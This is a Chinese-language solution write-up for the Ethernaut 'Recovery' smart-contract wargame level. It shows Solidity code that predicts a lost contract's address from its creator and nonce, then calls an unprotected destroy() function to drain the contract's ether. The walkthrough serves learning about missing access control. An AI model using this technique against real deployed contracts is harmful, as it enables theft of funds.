


# Ethernaut 17-Recovery

## 本关目标

- 找到丢失的 SimpleToken 合约地址，并取走其中的余额

## 合约分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {

  //generate tokens
  // 创建了一个SimpleToken但是没有保留它的地址，我们需要知道它的地址
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);

  }
}

contract SimpleToken {

  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public {
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] - _amount;
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    // 销毁合约并将余额全部转给_to
    selfdestruct(_to);
  }
}
```

## 解决方案

1. 复原出 Recovery 合约中新建的 SimpleToken 实例的地址

- 合约地址是有固定生成公式的，地址和创建合约的账户地址以及 noce 有关

```solidity
function addressFrom(address _origin, uint _nonce) public pure returns (address) {
  bytes memory data;
  if (_nonce == 0x00)          data = abi.encodePacked(bytes1(0xd6), bytes1(0x94), _origin, bytes1(0x80));
  else if (_nonce <= 0x7f)     data = abi.encodePacked(bytes1(0xd6), bytes1(0x94), _origin, uint8(_nonce));
  else if (_nonce <= 0xff)     data = abi.encodePacked(bytes1(0xd7), bytes1(0x94), _origin, bytes1(0x81), uint8(_nonce));
  else if (_nonce <= 0xffff)   data = abi.encodePacked(bytes1(0xd8), bytes1(0x94), _origin, bytes1(0x82), uint16(_nonce));
  else if (_nonce <= 0xffffff) data = abi.encodePacked(bytes1(0xd9), bytes1(0x94), _origin, bytes1(0x83), uint24(_nonce));
  else                         data = abi.encodePacked(bytes1(0xda), bytes1(0x94), _origin, bytes1(0x84), uint32(_nonce));
  return address(uint160(uint256(keccak256(data))));
}
```

- 本关 nonce=0x01, \_origin 就是 Recovery 合约地址， 部署 Hack，然后传入 Recovery 实例地址获取 SimpleToken 实例地址

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract Hack {

    function guessAddress(address sender) public pure returns(address){
        // address data = address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), sender, bytes1(0x80))))));

        address data = address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), sender, bytes1(0x01))))));
        return data;
    }
}
```



- 检查猜测地址的余额，验证该地址的正确性  
  

2. 使用猜测的地址 At Address 部署 SimpleToken
3. 调用 destroy()传入自己账户的地址即可完成余额转移
